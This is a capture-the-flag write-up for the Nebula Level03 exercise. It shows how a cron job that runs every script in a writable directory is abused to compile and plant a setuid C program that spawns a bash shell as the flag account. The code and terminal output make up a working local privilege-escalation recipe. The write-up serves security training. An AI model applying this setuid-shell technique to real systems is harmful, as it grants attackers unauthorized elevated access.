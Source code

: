 # Level03

## Task

>Check the home directory of flag03 and take note of the files there.

>There is a crontab that is called every couple of minutes.

>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

## Solution

The files in `/home/flag03/` show a directory and a shell script

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

To manipulate this i put the following as /tmp/shell.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Then put the following in `/home/flag03/writable.d/` and wait for it to run

```bash
#!/bin/bash

gcc /tmp/shell.c -o /home/flag03/shell
chmod +s /home/flag03/shell
```

After it has ran, i can run the shell file and get the flag

```
level03@nebula:/home/flag03$ ls writable.d/
run.sh
level03@nebula:/home/flag03$ ls writable.d/
```

```
level03@nebula:/home/flag03$ ./shell
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```
